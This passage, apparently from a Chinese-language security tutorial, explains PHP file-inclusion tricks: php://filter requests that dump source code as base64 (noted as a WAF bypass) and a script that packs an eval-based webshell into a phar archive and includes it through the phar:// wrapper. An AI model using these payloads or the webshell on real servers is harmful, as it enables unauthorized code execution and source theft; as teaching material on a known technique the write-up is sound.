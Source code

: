 ##### 姿势：
```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

![](https://raw.githubusercontent.com/fengwenhua/ImageBed/master/0.gpbfsvf1hn6_1536892449)

###### 其他姿势:
```
index.php?file=php://filter/convert.base64-encode/resource=index.php
```

效果跟前面一样，少了`read`等关键字。在绕过一些waf时也许有用。

#### `phar://`

##### 说明：
phar是一个文件归档的包，类似于Java中的Jar文件，方便了PHP模块的迁移。php中默认安装了这个模块。

比如上传的文件名遭到了限制，我们无法上传php的文件，但是却只能包含php文件的时候（包含文件后缀名被限制 `include ‘$file’.’.php’`），我们就可以通过上传phar文件，再利用php伪协议来包含。

##### 利用条件:
php版本大于等于php5.3.0

##### 姿势：

###### 创建一个phar文件
在创建phar文件的时候要注意`phar.readonly`这个参数要为`off`，否则phar文件不可写

```php
<?php
$p = new phar("shell.phar", 0 , "shell.phar");
$p->startBuffering();
$p['shell.php'] = '<?php phpinfo(); @eval($_POST[x])?>';
$p->setStub("<?php Phar::mapPhar('shell.phar'); __HALT_COMPILER?>");
?>
```

运行以上代码后会在当前目录下生成一个名为`shell.phar`的文件，这个文件可以被`include`，`file_get_contents`等函数利用

###### 利用phar
利用phar文件的方法很简单，利用phar特定的格式就可以加以利用

```
<?php
include 'phar://shell.phar/shell.php';
?>
```

这样就可以成功把`shell`包含进来。当我们把`shell.phar`文件重命名为`shell.aaa`等一些无效的后缀名时，一样可以使用，说明了**phar文件不受文件格式的影响**

指定**绝对路径**

```
index.php?file=phar://D:/phpStudy/WWW/fileinclude/shell.phar/shell.php
```
